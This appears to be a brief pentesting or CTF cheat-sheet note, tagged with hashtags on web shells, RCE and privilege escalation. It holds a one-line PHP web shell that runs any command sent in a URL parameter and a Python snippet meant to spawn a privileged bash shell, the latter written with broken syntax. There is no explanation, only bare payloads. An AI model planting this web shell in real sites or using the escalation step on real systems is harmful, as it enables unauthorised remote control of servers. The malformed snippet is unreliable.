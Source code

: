 
---

#WebShell #RCE #EthicalHacking #CyberSecurity #Pentesting #InfoSec #CommandInjection #SecurityTesting #RedTeam #Exploit #HackingÉtico #Python #PHP #PrivilegeEscalation #ReverseShell #CyberAttack #PenetrationTesting #CTF #BugBounty #Vulnerability #BlackBoxTesting #SecurityResearch #HackThePlanet #OSCommandInjection #CyberSecCommunity #ExploitDevelopment

---

<?php echo shell_exec($_GET['cmd']); ?>


`python3 -c "import sys; print(sys.path)"`


```python
import os

os.system(bash -p) 
```


**[[escalada de privilegios]]**
**[[privilege scalation basic]]**
